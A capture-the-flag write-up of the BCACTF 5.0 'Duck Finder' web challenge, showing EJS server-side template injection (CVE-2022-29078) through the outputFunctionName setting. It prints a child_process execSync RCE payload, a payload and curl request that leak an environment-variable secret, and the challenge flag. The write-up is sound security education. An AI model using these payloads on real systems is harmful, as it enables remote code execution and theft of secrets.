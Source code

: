 # BCACTF 5.0

## Duck Finder

> This old service lets you make some interesting queries. It hasn't been updated in a while, though.
> 
> Author: Thomas
> 
> [`server.zip`](server.zip)

Tags: _web__

## Solution
We get the source of a small web application the allows us to search for duck informations. The description suggest that we are looking for a vulnerability, since the service is old and was not updated for a while. Lets check the source code. It imports a specific version of `express` and `ejs` (embedded JavaScript templates), maybe some sort of `SSTI`.

```js
import express from 'npm:express@4.18.2'
import 'npm:ejs@3.1.6'
```

After a quick research we find an interesting vulnerability (`CVE-2022-29078`) that allows `RCE` with this specific version. There is a nice writeup [`here`](https://eslam.io/posts/ejs-server-side-template-injection-rce/). The two important parts are noted below. The template engine allows user to pass in settings. Settings `[view options]` lets us inject code as `outputFunctionName`. 

```js
// Undocumented after Express 2, but still usable, esp. for
// items that are unsafe to be passed along with data, like `root`
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
...
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

The poc suggest the following payload.

```js
x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s
```

That would expand to 

```js
var x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s = __append;
```

The code between will be executed. Thats cool and all, so we can in theory run system commands and do all sorts of stuff. Now we need to exfiltrate the flag. Sending it to a webhook or creating a reverse shell (if possible). But we also have access to `__output` that will be displayed on the page, so we can just write to output whatever we like, for instance the flag.

But where is the flag? If we check the code again we have one important prerequisite that is checked:
```js
if (!Deno.env.has('FLAG')) {
    throw new Error('flag is not configured')
}
```

So the flag is in the environment variables, our final payload looks like this

```js
breed=Mallard&settings[view options][outputFunctionName]=x;__output=Deno.env.get('FLAG');s
```

Calling it, gives us the flag.

```bash
curl -XPOST http://challs.bcactf.com:30684/ -d "breed=Mallard&settings[view options][outputFunctionName]=x;__output=Deno.env.get('FLAG');s"
```

Flag `bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}`